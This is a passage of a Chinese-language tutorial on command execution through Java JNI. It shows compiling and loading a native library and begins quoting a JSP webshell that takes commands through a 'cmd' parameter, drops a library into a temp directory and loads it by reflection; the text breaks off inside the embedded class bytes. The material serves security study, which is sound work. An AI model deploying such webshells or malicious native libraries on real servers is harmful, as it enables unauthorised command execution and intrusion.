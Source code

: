 windows 环境使用如下的命令
```bash
gcc -I"%JAVA_HOME%\include" -I"%JAVA_HOME%\include\win32" -shared -o libcmd.dll JniClass.c
```


#### 第五步：加载 so 文件
修改 NativeLibraryExample 的 main 方法，使用 System.load 将 so 文件加载进来。
```java
public class NativeLibraryExample {
    // 声明native方法
    public native void nativeMethod(String cmd);

    public static void main(String[] args) {
        System.load("/mnt/share/project/ctf_archives/test/test_jni/src/main/java/libNativeLibraryExample.so");
        NativeLibraryExample example = new NativeLibraryExample();

        example.nativeMethod("mate-calc"); // 调用native方法
    }
}
```
调用 nativeMethod 执行命令。

### 实际场景下的 JNI 利用
实际渗透场景中通常需要先将恶意链接库放入服务器中，大致可以分为如下的两种情形：
1. 先利用文件上传漏洞将编译好的 so 或者 dll 放入服务器中，然后再加载运行。
2. 先利用 webshell 将 so 或 dll 写入服务器，然后再加载运行。

#### JSP webshell
javasec 中的 JSP 示例如下，其代码的实现与正向开发有一些区别：
1. 将定义的 Java 转化为字节数组，通过 defineClass 对其进行加载，从而获取到定义了 native 方法的 Java 类。
2. 将 so 文件内容的 base64 编码定义为常量，加载这个 jsp 时，将 so 的内容写入到服务器临时文件目录下。
3. 加载 so 时，并没有使用 System.load 函数，而是使用 ClassLoader.loadLibrary0 方法。实际上 System.load 底层也是调用的 ClassLoader.loadLibrary0。
4. 调用过程采用反射完成。

```java
<%@ page contentType="text/html;charset=UTF-8" language="java" %>
<%@ page import="java.io.File" %>
<%@ page import="java.io.FileOutputStream" %>
<%@ page import="java.io.IOException" %>
<%@ page import="java.lang.reflect.Method" %>
<%-- load_library_cmd_all.jsp?cmd=ls --%>
<%-- 通过JNI的方式调用动态链接库, 反射调用 ClassLoader 的 loadLibrary0 方法进行加载 --%>
<%!
    private static final String COMMAND_CLASS_NAME = "com.anbai.sec.cmd.CommandExecution";

    /**
     * JDK1.5编译的com.anbai.sec.cmd.CommandExecution类字节码,
     * 只有一个public static native String exec(String cmd);的方法
     */
    private static final byte[] COMMAND_CLASS_BYTES = new byte[]{
            -54, -2, -70, -66, 0, 0, 0, 49, 0, 15, 10, 0, 3, 0, 12, 7, 0, 13, 7, 0, 14, 1,
            0, 6, 60, 105, 110, 105, 116, 62, 1, 0, 3, 40, 41, 86, 1, 0, 4, 67, 111, 100,
            101, 1, 0, 15, 76, 105, 110, 101, 78, 117, 109, 98, 101, 114, 84, 97, 98, 108,
            101, 1, 0, 4, 101, 120, 101, 99, 1, 0, 38, 40, 76, 106, 97, 118, 97, 47, 108, 97,
            110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 41, 76, 106, 97, 118, 97, 47, 108,
            97, 110, 103, 47, 83, 116, 114, 105, 110, 103, 59, 1, 0, 10, 83, 111, 117, 114,
            99, 101, 70, 105, 108, 101, 1, 0, 21, 67, 111, 109, 109, 97, 110, 100, 69, 120,
            101, 99, 117, 116, 105, 111, 110, 46, 106, 97, 118, 97, 12, 0, 4, 0, 5, 1, 0, 34,
            99, 111, 109, 47, 97, 110, 98, 97, 105, 47, 115, 101, 99, 47, 99, 109, 100, 47, 67,
            111, 109, 109, 97, 110, 100, 69, 120, 101, 99, 117, 116, 105, 111, 110, 1, 0, 16,
            106, 97, 118, 97, 47, 108, 97, 110, 103, 47, 79, 98, 106, 101, 99, 116, 0, 33, 0,
            2, 0, 3, 0, 0, 0, 0, 0, 2, 0, 1, 0, 4, 0, 5, 0, 1, 0, 6, 0, 0, 0, 29, 0, 1, 0, 1,
```